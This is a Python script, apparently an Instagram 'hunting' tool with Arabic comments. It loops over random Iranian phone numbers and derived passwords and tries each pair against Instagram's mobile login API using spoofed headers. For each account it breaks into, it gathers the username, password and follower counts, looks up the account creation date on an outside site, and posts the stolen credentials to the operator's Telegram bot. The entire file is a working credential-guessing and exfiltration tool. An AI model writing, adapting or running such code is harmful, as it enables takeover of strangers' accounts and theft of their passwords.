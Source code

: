 import pyfiglet

# = = = = = = = = = = = = 

Z = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح

# = = = = = = = = = = = =

logo = pyfiglet.figlet_format(' i n s t a')
print(F+logo)
import pyfiglet

# = = = = = = = = = = = = 

Z = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح

# = = = = = = = = = = = =

logo = pyfiglet.figlet_format(' @5 1 u _ _')
print(Y+logo)

import os
os.system('clear')
try:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
except ImportError:
    os.system('pip install time')
    os.system('pip install webbrowser ')
    os.system('pip install random')
    os.system('pip install requests')
    os.system('pip install user_agent')
    os.system('pip install json')
    os.system('pip install secrets')
    os.system('pip install sys')
    os.system('clear')
    from time import sleep
    import time, webbrowser, random, requests
    from uuid import uuid4
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
else:
    from time import sleep
    import webbrowser, random, requests
    from user_agent import generate_user_agent
    import json
    from secrets import token_hex
    import secrets, sys
    os.system('clear')
    aa = 0
    zz = 0
    E = '\x1b[1;31m'
    G = '\x1b[1;32m'
    S = '\x1b[1;33m'
    Z = '\x1b[1;31m'
    X = '\x1b[1;33m'
    Z1 = '\x1b[2;31m'
    F = '\x1b[2;32m'
    A = '\x1b[2;39m'
    C = '\x1b[2;35m'
    B = '\x1b[2;36m'
    Y = '\x1b[1;34m'
    import time
    timee = time.asctime()
    t = time.localtime()
    current_time = time.strftime('%H:%M:%S', t)

    def a(z):
        for e in z:
            sys.stdout.write(e)
            sys.stdout.flush()
            sleep(0)


    a(f""" _                 _
 (_)  _ __    ___  | |_    __ _
 | | | '_ \  / __| | __|  / _` |
 | | | | | | \__ \ | |_  | (_| |
 |_| |_| |_| |___/  \__|  \__,_|


    ____   ____    _
   / __ \ | ___|  / |  _   _
  / / _` | ___ \  | | | | | |
 | | (_| | ___) | | | | |_| |
  \ \__,_| ____/  |_|  \__,_|  _____   _____
   \____/                    |_____| |_____| """)
    sleep(1.0)
    print('\n\n')
    a(G + ' \n\nتوكن ')
    print('\n')
    tok = input(S + '     >> ' + C)
    sleep(1)
    os.system('clear')
    a(A + ' ايدي ')
    print('\n')
    ID = input(A + '     >> ' + C)
    sleep(0.1)
    os.system('clear')
    start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=بسم الله ..... ⏸️").json()
    id_msg = start_msg['result']['message_id']

    def code_joo(userQ, password):
        cookie = secrets.token_hex(8) * 2
        head = {'HOST':'www.instagram.com', 
         'KeepAlive':'True', 
         'user-agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36', 
         'Cookie':cookie, 
         'Accept':'*/*', 
         'ContentType':'application/x-www-form-urlencoded', 
         'X-Requested-With':'XMLHttpRequest', 
         'X-IG-App-ID':'936619743392459', 
         'X-Instagram-AJAX':'missing', 
         'X-CSRFToken':'missing', 
         'Accept-Language':'en-US,en;q=0.9'}
        url_id = f"https://www.instagram.com/{userQ}/?__a=1"
        req_id = requests.get(url_id, headers=head).json()
        name = str(req_id['graphql']['user']['full_name'])
        id = str(req_id['graphql']['user']['id'])
        followes = str(req_id['graphql']['user']['edge_followed_by']['count'])
        following = str(req_id['graphql']['user']['edge_follow']['count'])
        re = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}")
        ree = re.json()
        dat = ree['data']
        t = time.localtime()
        current_time = time.strftime('%H:%M:%S', t)
        joo3 = f"    تع صدتلك حساب    \n ︎\n .. الاسـم   : {name}\n .الـيـوزر: {userQ}\n .. الرمــز  : {password}\n .. المتابـعــين : {followes}\n .. المتابعهـم : {following}\n .. تاريـخ : {dat}\n .. الوقت : {current_time}\n .⛔. 𝙩𝙝𝙞𝙨 𝙄𝙨 𝙏𝙝𝙚 𝙃𝙪𝙣𝙩 𝙉𝙪𝙢𝙗𝙚𝙧 [{zz}] \n ︎.<•>︎  مبروك\n"
        tlg = f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=\n {joo3} \n"
        i = requests.post(tlg)
        print(G + joo3)


    url = 'https://b.i.instagram.com/api/v1/accounts/login/'
    headers = {'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)'}
    
    print(G + 'The Tool PROGRAM ALI 🧪 ')
    sleep(0)
    user = '0987654321'
    while True:
        us = str(''.join((random.choice(user) for i in range(7))))
        username = '+98917' + us
        password = '0917' + us
        from uuid import uuid4
        uid = str(uuid4())
        data = {'uuid':uid, 
         'password':password, 
         'username':username, 
         'device_id':uid, 
         'from_reg':'false', 
         '_csrftoken':'missing', 
         'login_attempt_countn':'0'}
        req = requests.post(url, headers=headers, data=data)
        if 'logged_in_user' in req.json():
            zz += 1
            userQ = req.json()['logged_in_user']['username']
            code_joo(userQ, password)
        elif '"message":"challenge_required","challenge"' in req.json():
            print(S + 'username S ==> : ' + username + ': password ==> : ' + password)
        else:
            requests.post(f"https://api.telegram.org/bot{tok}/editmessagetext?chat_id={ID}&message_id={id_msg}&text= ali is Here\n\n THIS TOOL Hc ALISH ⭐\n->•✔️\n√| انستا @51u__\
  \n->• Hunted✔️ [{zz}]\n->•\u200aNot hunted❌ [{aa}]")
            print(E + 'username ==> : ' + username + ': password ==> : ' + password)
            aa += 1
